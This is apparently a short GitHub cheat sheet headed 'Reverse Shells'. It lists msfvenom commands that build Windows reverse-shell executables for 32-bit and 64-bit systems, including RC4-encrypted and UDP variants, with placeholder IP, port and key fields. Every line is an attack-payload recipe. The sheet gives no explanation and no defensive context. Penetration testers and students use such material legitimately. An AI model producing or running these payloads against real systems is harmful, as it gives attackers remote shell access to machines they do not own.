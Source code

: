 # Reverse Shells

1. x86 (32-bit) Payloads

`$ msfvenom -p windows/shell/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o shell-x86.exe`

`$ msfvenom -p windows/shell/reverse_tcp_rc4 lhost=<IP> lport=<PORT> rc4password="<KEY>" -f exe -o shell-enc-x86.exe`

`$ msfvenom -p windows/shell/reverse_udp lhost=<IP> lport=<PORT> -f exe -o shell-x86.exe`

2. x86_64 (64-bit) Payloads

`$ msfvenom -p windows/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o shell-x64.exe`

`$ msfvenom -p windows/x64/shell/reverse_tcp_rc4 lhost=<IP> lport=<PORT> rc4password="<KEY>" -f exe -o shell-enc-x64.exe`